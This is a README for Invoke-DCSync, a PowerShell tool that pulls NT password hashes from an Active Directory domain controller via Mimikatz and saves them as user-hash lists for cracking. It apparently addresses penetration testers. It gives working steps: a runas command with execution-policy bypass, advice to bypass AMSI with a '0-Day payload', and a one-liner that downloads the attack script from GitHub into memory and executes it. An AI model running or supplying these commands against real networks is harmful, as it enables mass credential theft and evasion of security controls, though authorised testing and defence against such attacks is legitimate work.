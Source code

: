 # Invoke-DCSync
PowerShell script to DCSync NT-Hashes from an Active Directory Domain Controller (DC) via Mimikatz. 

Output format is split into 4 files:
- raw mimikatz log
- hashes only
- users only 
- tuple list of user and hash for cracking

## General Preparation

1. Connect to the internal AD network via VPN or directly, if on-site.
2. Configure your operating system's proxy to use the client's proxy. Internet is required to download Invoke-Mimikatz and Invoke-DCSync PS scripts. Alternatively, configure a known proxy via PS:

````
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyServer -Value "127.0.0.1:8080"
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyEnable -Value 1
````
3. Open a new PowerShell terminal as another user; use a privileged domain user account with DCSync rights

````
runas.exe /netonly /noprofile /user:mydomain.prod.dom\dcsyncUser "powershell.exe -ep bypass"
````

4. Verify authenticated AD access within your PowerShell terminal window

## DCSync Preparation

It is recommended to bypass AMSI for the current PowerShell session. Use a 0-Day payload!

# DCSync Execution

Download ``Invoke-DCSync.ps1`` into memory, which executes the DCSync process.

As a result, we will obtain four files located under C:\temp\ directory:

1. **DCSync_NTLM_full**: Just the complete logfile of running Mimikatz
2. **DCSync_NTLM_Hashes**: Only contains the NT-Hashes
3. **DCSync_NTLM_Users**: Only contains the employee's username
4. **DCSync_NTLM_UserHash_Import**: Contains the tuple of username and hash

````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/l4rm4nd/Invoke-DCSync/main/Invoke-DCSync.ps1')
````
